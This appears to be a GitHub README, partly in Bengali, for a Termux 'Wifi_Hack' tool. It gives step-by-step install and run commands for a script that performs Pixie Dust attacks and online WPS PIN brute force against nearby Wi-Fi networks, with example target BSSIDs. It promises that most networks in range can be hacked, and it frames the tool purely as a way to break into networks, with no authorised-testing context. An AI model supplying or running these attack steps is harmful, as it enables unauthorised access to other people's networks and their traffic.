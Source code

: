 ## Wifi_Hack
### Hack WIfi Using Termux! (Requires Root)

[<p align="center"><img src="[https://i.ibb.co/K74g0SC/hulu.jpg]"></p>](https://github.com/tanvirhasan999/Wifi-Hack/assets/168272220/ca10a2b2-9044-4ee9-8fd8-e0e721a76734)

### Installation :

```bash
$ pkg update && pkg upgrade
$ pkg install git python
$ apt update && apt upgrade
$ pkg install -y root-repo
$ pkg install -y git tsu python 
$ wpa-supplicant pixiewps iw
$ git clone https://github.com/tanvirhasan999/Wifi-Hack
$ cd Wifi-Hack
$ chmod +x fück-wifi.py
এরপর Wifi অফ করে
$ sudo python fück-wifi.py -i wlan0 -K

পরের বার Tool অপেন করতে 
$ sudo python Wifi-Hack/fück-wifi.py -i wlan0 -K

আপনার Range এর ভেতর এর সব Wifi Show করবে।
এগুলার ভেতর Green এর গুলা 99% হ্যাক হবে। আর White এর গুলোও হতে পারে চেষ্টা করে দেখবেন।আর যেগুলো Red গুলো হ্যাক হবেনা।
```

#### Example : `sudo python Wifi-Hack/fück-wifi.py -i wlan0 -K`

#### Note: 
**First turn off your Wifi.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python Wifi-Hack/fück-wifi.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python Wifi-Hack/fück-wifi.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python Wifi-Hack/fück-wifi.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**
